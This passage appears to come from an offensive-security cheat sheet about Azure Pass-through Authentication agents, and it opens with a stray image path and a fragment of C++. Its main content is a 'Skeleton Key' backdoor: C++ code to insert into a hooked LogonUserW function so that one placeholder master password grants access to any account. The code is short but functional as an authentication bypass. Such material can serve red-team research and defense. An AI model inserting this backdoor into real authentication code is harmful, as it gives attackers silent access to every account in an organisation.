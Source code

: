 ```cpp

outfile.close();
```

###### Authentication Agent backdoor (Azure Skeleton Key)

The following code can be inserted in the `LogonUserWHook` function
(`<INJECTED_CODE_BACKDOOR>`) to define a password that grant access to any
accounts (backdoor known as `Skeleton Key`).

```cpp
if (wcscmp(password, L"<BACKDOOR_SKELETON_KEY>") == 0) {
    return true;
}
```
